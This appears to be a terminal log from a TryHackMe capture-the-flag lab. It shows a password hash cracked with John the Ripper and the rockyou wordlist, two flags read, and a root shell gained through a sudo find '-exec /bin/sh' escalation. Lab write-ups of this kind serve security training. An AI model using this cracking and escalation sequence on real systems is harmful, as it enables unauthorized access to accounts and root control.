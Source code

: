 	[jmk@arch THM]$ john missy_pass.txt --wordlist=~/Documents/InfoSec/THM/rockyou.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (?)
1g 0:00:00:00 DONE (2022-02-06 16:21) 1.818g/s 7447p/s 7447c/s 7447C/s adriano..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed

[missy@ip-10-10-209-223 Documents]$ cat flag1.txt
THM-42828719920544

[missy@ip-10-10-209-223 home]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# whoami
root

	sh-4.2# cat flag2.txt
THM-168824782390238
